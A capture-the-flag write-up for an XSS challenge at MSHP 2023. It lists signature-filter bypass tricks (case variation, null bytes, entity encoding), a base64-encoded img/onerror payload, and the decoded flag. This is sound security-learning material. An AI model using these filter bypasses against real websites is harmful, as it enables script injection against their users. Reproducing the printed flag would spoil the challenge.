 # MSHP 2023 - [7] now that's xxs!

**CTF Name:** MEGA SEKURAK HACKING PARTY 2023
**Challenge name:** [7] now that's xxs!
**Challenge description:**
> This page is somehow broken. Where's the ?payload?
> UPDATE:
> If you see a base64 - you are on a right track 

**Challenge URL:** http://ctf.securitum.ninja/ctfX/
**Challenge category:** websec/xss
**Challenge points:** 100

* * *

## Steps to solve
This challenge website openly said: "Broken XSS Challenge" and "Your goal is to execute an alert using a bypass technique and retrieve the flag.", alright, but how?
![website_inspector.png](../_resources/website_inspector-2.png)

Opening *Web Developer Tools* allowed me to see, that the payload form is hidden. I changed HTML code to unhide and enable it, and sent the following payload:
```html
<script>alert(1)</script>
```

Of course, I didn't get the alert - it would be too easy. However I received "I don't like this tag" message/hint:
![me_no_likey.png](../_resources/me_no_likey.png)

And while observing URL, it now had parameter **?payload=** added, which I could later use to quickly send GET requests.

> At that time I thought about the hint I received
> "I don't like this tag"
> Alright! But how can I make you like it?

What are the ways to *bypass signature-based filters*?
```
If the filter is naive, then tag character case variation can bypass it:
<sCrIpT>alert(1)</sCrIpT>

Other way is to add NULL byte [%00] in any position:
<[%00]script>alert(1)</script>
<scr[%00]ipt>alert(1)</script>
<script>a[%00]lert(1)</script>

One can also use trick with space (or equiv char) following tag name:
<script/blahblah>alert(1)</script>

And lastly, it is nice to check whether HTML-encoding bypasses the filter:
# This obfuscation technique could work, as browser HTML-decodes attributes before processing them
<script>a&#x006c;&#x0065;rt(1)</script>
&lt;script&gt;alert(1)&lt;/script&gt;
&lt;script&gt;alert&lpar;1&rpar;&lt;&sol;script&gt;

# Or if you are mental (&lt; = &#x003c; and &gt; = &#x003e;):
&#x003c;&#x0073;&#x0063;&#x0072;&#x0069;&#x0070;&#x0074;&#x003e;&#x0061;&#x006c;&#x0065;&#x0072;&#x0074;&#x0028;&#x0031;&#x0029;&#x003c;&#x002f;&#x0073;&#x0063;&#x0072;&#x0069;&#x0070;&#x0074;&#x003e;
```

However, the above trickery did not work for me, meaning that organizers allowed specific tag only.
I tried couple, but found out that **\<img>** is the one I was looking for:
![gimme_base64.png](../_resources/gimme_base64.png)

But what's that? Yet another error? Yet another hint?
Payload I tried was:
```html
<img src="foo" onerror="alert(1)">
```
which basically tries to load image with source **foo** (non-existent), and if it cannot be loaded - it executes **alert(1)**.

You want base64 encoded payload bro? You get base64 encoded payload... bro:
```html
<img src="foo" onerror="alert(1)"> = PGltZyBzcmM9ImZvbyIgb25lcnJvcj0iYWxlcnQoMSkiPg==
```

I sent above base64 payload in GET request, and received the flag:
![GET.png](../_resources/GET.png)

```
I see base64 which I like!

Flag: chr(84)||chr(86)||chr(78)||chr(73)||chr(85)||chr(70)||chr(57)||chr(55)||chr(81)||chr(71)||chr(89)||chr(107)||chr(81)||chr(69)||chr(119)||chr(122)||chr(78)||chr(69)||chr(100)||chr(107)||chr(83)||chr(68)||chr(70)||chr(53)||chr(99)||chr(107)||chr(108)||chr(52)||chr(102)||chr(81)||chr(61)||chr(61)
```

I used find and replace to concatenate those characters with plus sign in python, and then printed flag:
```python
flag = chr(84)+chr(86)+chr(78)+chr(73)+chr(85)+chr(70)+chr(57)+chr(55)+chr(81)+chr(71)+chr(89)+chr(107)+chr(81)+chr(69)+chr(119)+chr(122)+chr(78)+chr(69)+chr(100)+chr(107)+chr(83)+chr(68)+chr(70)+chr(53)+chr(99)+chr(107)+chr(108)+chr(52)+chr(102)+chr(81)+chr(61)+chr(61)
print(flag)
```

```shell
$ python3 flag.py
TVNIUF97QGYkQEwzNEdkSDF5ckl4fQ==
```

But what is that? Another layer of encoding...?
It's clearly base64, so let's *CyberChef* it! (you may of course pick *base64encode.org* or similiar):
![base64.png](../_resources/base64-1.png)

**FLAG:** MSHP_{@f$@L34GdH1yrIx}

## Additional comments
This challenge was really interesting and allowed me to discover various techniques on how to *bypass signature-based filters*. [*PortSwigger*](https://portswigger.net/support/bypassing-signature-based-xss-filters-modifying-html) was one of the best.